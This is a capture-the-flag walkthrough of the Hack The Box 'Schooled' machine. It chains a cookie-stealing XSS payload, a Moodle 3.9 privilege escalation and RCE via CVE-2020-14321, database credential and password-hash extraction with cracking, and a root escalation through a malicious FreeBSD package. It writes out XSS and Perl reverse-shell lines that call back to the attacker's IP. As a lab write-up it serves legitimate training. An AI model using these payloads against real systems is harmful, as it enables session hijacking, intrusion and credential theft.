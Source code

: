 # Main points
* vhosts with gobuster
* XSS to steal teacher cookie
* Moodle RCE ver3.9 CVE-2020-14321
# Enumeration
We start with nmap scan
* 22/tcp    open     ssh     syn-ack     OpenSSH 7.9 (FreeBSD 20200214; protocol 2.0)
* 80/tcp    open     http    syn-ack     Apache httpd 2.4.46 ((FreeBSD) PHP/7.4.15)
* 33060/tcp open     mysqlx? syn-ack

Let's check the website
In the `/about.html` page, we see that they use Moodle for teaching
![Pasted image 20210727203524.png](/assets/Pasted%20image%2020210727203524.png)

So there is probably a moodle subdomain, something like `moodle.schooled.htb` or `moodle-app.schooled.htb` let's bruteforce with `gobuster`

```bash
gobuster vhost --url http://schooled.htb --wordlist /usr/share/wordlists/SecLists/DNS/subdomains-top1million-5000.txt
```

We found moodle subdomain `moodle.schooled.htb`
![Pasted image 20210727204456.png](/assets/Pasted%20image%2020210727204456.png)

Let's create an account (in the email, they only accept from domain `student.schooled.htb`)

![Pasted image 20210727205316.png](/assets/Pasted%20image%2020210727205316.png)

We enroll to the Math course and we see there is an Announcement
![Pasted image 20210727211040.png](/assets/Pasted%20image%2020210727211040.png)
Let's check the reminder
![Pasted image 20210727211055.png](/assets/Pasted%20image%2020210727211055.png)
![Pasted image 20210727211107.png](/assets/Pasted%20image%2020210727211107.png)

So we need to find this MoodleNet profile, and since the teacher will check all the profiles, we can steal his cookies and get a teacher account.

We go to our profile and edit the profile
![Pasted image 20210728001605.png](/assets/Pasted%20image%2020210728001605.png)

![Pasted image 20210728001622.png](/assets/Pasted%20image%2020210728001622.png)

We can see the `MoodleNet profile` field that the teacher will check, let's try and put an XSS payload.
`<img src=x onerror=document.location='http://10.10.14.64/?'+document.cookie;>`
Setup a python HTTP server and wait for the request, unrenrol and enroll again to the course to make the teacher check your MoodleNet Profile
![Pasted image 20210728003101.png](/assets/Pasted%20image%2020210728003101.png)

look at me, I am the teacher now
We copy the cookie and replace it in the browser devtool
![Pasted image 20210728003212.png](/assets/Pasted%20image%2020210728003212.png)
We go the main page
We are the teacher manuel philips
![Pasted image 20210728003326.png](/assets/Pasted%20image%2020210728003326.png)

Scroll down
![Pasted image 20210728003723.png](/assets/Pasted%20image%2020210728003723.png)
This redirects to the URL `https://docs.moodle.org/39/en/course/view/topics`
Which means this moodle version si `3.9`, let's look for vulnerabilities for it.

We find a moodle RCE as `CVE-2020-14321` according to [Hacktricks](https://book.hacktricks.xyz/pentesting/pentesting-web/moodle#rce) we will need to escalate to Manager role to allow ourself to install plugin and install our php revshell as plugin
We find this PoC video
<iframe src="https://player.vimeo.com/video/441698193" width="640" height="380" frameborder="0" allow="autoplay; fullscreen; picture-in-picture" allowfullscreen></iframe>

Let's do the same, we start burp suite, and try to assign Manager role to the user student `Yamanak tameguchi` (our created user)

![Pasted image 20210728012730.png](/assets/Pasted%20image%2020210728012730.png)
Make sure to change these
![Pasted image 20210728013039.png](/assets/Pasted%20image%2020210728013039.png)
`userlist%5B%5D=<YOUR USER ID OF MANUEL PHILIPS>&roletoassign=1`

And our user is Manager
![Pasted image 20210728013128.png](/assets/Pasted%20image%2020210728013128.png)

We go to his profile and scroll down and click "Login as"
Now we are logged with Manager role
![Pasted image 20210728013303.png](/assets/Pasted%20image%2020210728013303.png)

And we have site administration
![Pasted image 20210728020100.png](/assets/Pasted%20image%2020210728020100.png)

Edit the Manager role and catch the request in burp suite, and replace the payload with the one in the github [repo](https://github.com/HoangKien1020/CVE-2020-14321#payload-to-full-permissions) to get full permission as manager

From the repo download the zip, extract it, and replace the php file with the revshell from Pentestmonkey, and zip it again.

Now go to install plugin 
![Pasted image 20210728020811.png](/assets/Pasted%20image%2020210728020811.png)

And upload your zip file
![Pasted image 20210728020953.png](/assets/Pasted%20image%2020210728020953.png)
And install it

Setup a netcat listener
![Pasted image 20210728021005.png](/assets/Pasted%20image%2020210728021005.png)

And go to `http://moodle.schooled.htb/blocks/rce/lang/en/block_rce.php`

And we have a shell
![Pasted image 20210728021421.png](/assets/Pasted%20image%2020210728021421.png)

After a bit of looking around we find 2 users in `/etc/passwd` `jamie` and `steve`
Let's find `config.php` files to see if we can grab some creds
```bash
find / -iname "config.php" 2> /dev/null
```

![Pasted image 20210728023534.png](/assets/Pasted%20image%2020210728023534.png)

Let's check
`/usr/local/www/apache24/data/moodle/config.php`

```php
<?php  // Moodle configuration file

unset($CFG);
global $CFG;
$CFG = new stdClass();

$CFG->dbtype    = 'mysqli';
$CFG->dblibrary = 'native';
$CFG->dbhost    = 'localhost';
$CFG->dbname    = 'moodle';
$CFG->dbuser    = 'moodle';
$CFG->dbpass    = 'PlaybookMaster2020';
$CFG->prefix    = 'mdl_';
$CFG->dboptions = array (
  'dbpersist' => 0,
  'dbport' => 3306,
  'dbsocket' => '',
  'dbcollation' => 'utf8_unicode_ci',
);

$CFG->wwwroot   = 'http://moodle.schooled.htb/moodle';
$CFG->dataroot  = '/usr/local/www/apache24/moodledata';
$CFG->admin     = 'admin';

$CFG->directorypermissions = 0777;

require_once(__DIR__ . '/lib/setup.php');

// There is no php closing tag in this file,
// it is intentional because it prevents trailing whitespace problems!
```

So now we have database MySQL creds
`moodle: PlaybookMaster2020`
Let's connect with `mysql`

```bash
/usr/local/bin/mysql -u moodle -pPlaybookMaster2020
```
Let's see the tables of the database
![Pasted image 20210728024138.png](/assets/Pasted%20image%2020210728024138.png)

From the table we see table `mdl_user` let's check the content
```SQL
select * from mdl_user;
```

We have a lot of data, but we can see there is user and hash, let's take the hash of `steve` or `jamie`, whatever we find ^^
(I couldnt get full output so I used this command)

```bash
/usr/local/bin/mysql -u moodle -pPlaybookMaster2020 -e "use moodle; select * from mdl_user;" | grep jamie
```
We have the hash of jamie
`$2y$10$3D/gznFHdpV6PXt1cLPhX.ViTgs87DCE5KqphQhGYR5GFbcl4qTiW`
Let's crack it with john
```bash
john hash -w /usr/share/wordlists/rockyou.txt --format=bcrypt
```

We have password of `jamie:!QAZ2wsx` 
We can ssh to it, and we have user flag

# Priv Esc
When we do `sudo -l` we see
![Pasted image 20210728030207.png](/assets/Pasted%20image%2020210728030207.png)
So we can install/update a package, so naturally we should try to make a malicious package and install it using `sudo`

We see on [GTFOBins](https://gtfobins.github.io/gtfobins/pkg/) that we can use `fpm` to compile a malicious package, let's create a reverse shell that will get us root

On your machine
```
TF=$(mktemp -d)
echo perl "-e" "'"'use Socket;$i="10.10.14.64";$p=4444;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/sh -i");};'"'" > $TF/x.sh
fpm -n x -s dir -t freebsd -a all --before-install $TF/x.sh $TF
```
Download it on victim machine using `wget` or `curl` while setting your python HTTP Server.
Setup your netcat listener

On victim machine
```
sudo pkg install -y --no-repo-update ./x-1.0.txz
```
And we have root on our netcat listener
![Pasted image 20210728142434.png](/assets/Pasted%20image%2020210728142434.png)

And we have the flag

## Root hash
`$6$aHA/oB17Vb9TqNGn$GKTw/EWJfAl05/knP2YNId6xbyaAiGh.pfkeD5X/VQa/WtgI7jy5B7yO8Pvvyl1g3sbPATF3Mnn58sjXJgYAS0`